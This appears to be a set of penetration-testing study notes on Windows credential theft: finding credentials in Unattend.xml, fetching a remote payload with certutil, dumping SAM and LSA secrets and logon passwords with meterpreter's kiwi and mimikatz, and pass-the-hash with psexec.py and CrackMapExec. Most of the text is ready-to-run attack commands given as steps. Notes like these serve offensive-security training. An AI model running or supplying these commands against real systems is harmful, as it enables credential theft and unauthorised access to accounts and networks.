 you can hide any type of files!!!!!


## Windows Credential Dumping
-> Windows stores hashed user account passwords locally in the SAM database. It encrypted with a syskey.
-> Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
-> look at LM/NTLM hashing and how they work!

## Windows Configuration Files
These files contain user account and system informations encoded with base64
`C:\Windows\Panther\Unattend.xml`
`C:\Windows\Panther\Autounattend.xml`
so download them with the meterpreter session and look in them for users credentials
and use `psexec.py Administrator@$ip` to connect to that user and higher privileges.

`certutil -urlcache -f https://$ip/payload.exe payload.exe` -> download payload.exe with cmd


## Hashdump with mimikatz - persistence
**mimikatz** is a tool to extract clear-text passwords from the lsass.exe process memory where hashes are cached. 
**Kiwi** is meterpreter built-in tool similar to mimikatz.
Everything happen on memory. Mimikatz extract the hashes from momery not from SAM file!!!

```
meterpreter> pgrep lsass
meterpreter> migrate $lsass_ip -> this step will give you a higher privileges
meterpreter> getuid
meterpreter> load kiwi
meterpreter> ? -> for help for kiwi
meterpreter> lsa_dump_sam -> to get NTLM users credentials

meterpreter> cd c:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload mimikatz.exe
meterpreter> .\mimikatz.exe
mimikatz# privilege::debug -> check if we have privileges
mimikatz# lsadump::sam
mimikatz# lsadump::secrets
mimikatz# sekurlsa::logonpasswords
```

## Pass the hash attack
Tools: 
- **metsaploit PsExec module**,
- **Crackmapexec**

after getting an admin privileges, do
`meterpreter> load kiwi`
`meterpreter> lsa_dump_sam`  to get NTLM users credentials
`meterpreter> hashdump` 
